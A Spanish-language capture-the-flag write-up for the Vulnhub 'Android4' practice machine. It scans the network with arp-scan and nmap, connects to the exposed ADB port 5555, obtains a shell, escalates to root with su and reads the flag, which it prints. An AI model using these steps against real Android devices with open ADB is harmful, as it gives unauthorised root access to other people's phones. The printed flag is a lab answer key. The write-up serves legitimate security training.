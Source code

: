 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=300&height=80&lines=ANDROID_4"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/android4-1,233/

<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/179633430-0029a8f7-b789-49a2-80be-12f04ed9357f.png"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con ArpScan. 
```
arp-scan --interface eth0 -l
```
![2](https://user-images.githubusercontent.com/75953873/179633673-54c343f6-fe1c-49bd-a070-a2ccdb4cf488.png)

IP host: `192.168.25.139`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.25.139
```
![3](https://user-images.githubusercontent.com/75953873/179633819-76e89cc3-3e47-4f1c-9d4c-bcd153f748b9.png)

Puertos abiertos: [8080,22000,5555]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 8080,22000,5555 -A 192.168.25.139
```
![4](https://user-images.githubusercontent.com/75953873/179634411-2134bb33-54f8-45c7-a0be-b6dbb9824153.png)

Servidor web (puerto **8080**): `http://192.168.25.139:8080`

![5](https://user-images.githubusercontent.com/75953873/179634788-bc82e682-c166-43c9-bd67-366001b12fd5.png)

O.S: `Android` **--> Kernel Linux**

Puerto **5555**: Es un puerto utilizado por ADB (Puente de Depuración de Android) que se utiliza para conectarse a telefonos móviles y ejecutar comandos.

- *Paso 4:* Conectarse al telefono vía ADB y capturar la flag.

Descargar ADB:
```
apt-get install -y adb
```

Conectarse con el dispositivo y obtener una shell:
```
adb connect 192.168.25.139:5555
adb shell
```
![6](https://user-images.githubusercontent.com/75953873/179636318-eb4f31c6-3c25-4881-aec8-802eb3052785.png)

Acceder a superusuario (**root**) y capturar la flag en del directorio `/data/root`:
```
su
cd /data/root
cat flag.txt
```
![7](https://user-images.githubusercontent.com/75953873/179636561-0b059ea4-2dd0-4c97-bc47-0ea74cfd023b.png)

**FLAG:** ANDROID{u_GOT_root_buddy}
